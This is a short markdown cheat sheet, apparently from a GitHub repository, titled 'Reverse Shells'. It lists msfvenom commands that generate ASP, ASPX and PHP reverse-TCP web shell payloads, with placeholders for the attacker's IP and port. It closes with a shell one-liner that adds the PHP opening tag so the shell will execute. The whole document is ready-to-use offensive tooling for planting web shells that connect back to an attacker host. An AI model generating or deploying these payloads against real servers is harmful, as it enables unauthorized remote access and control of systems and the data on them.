 # Reverse Shells

## 01 - ASP

x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp
```

x86_64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x64.asp
```

## 02 - ASPX

x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx
```

x86_64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x64.aspx
```

## 03 - PHP

PHP reverse callback shell

```
$ msfvenom -p php/reverse_php lhost=<IP> lport=<PORT> -f raw -o shell.php
```

PHP with perl code reverse callback shell

```
$ msfvenom -p php/reverse_perl lhost=<IP> lport=<PORT> -f raw -o shell.php
```

After generating the PHP reverse callback shell include the tags to ensure execution.

```
$ xclip -selection clipboard shell.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php
```
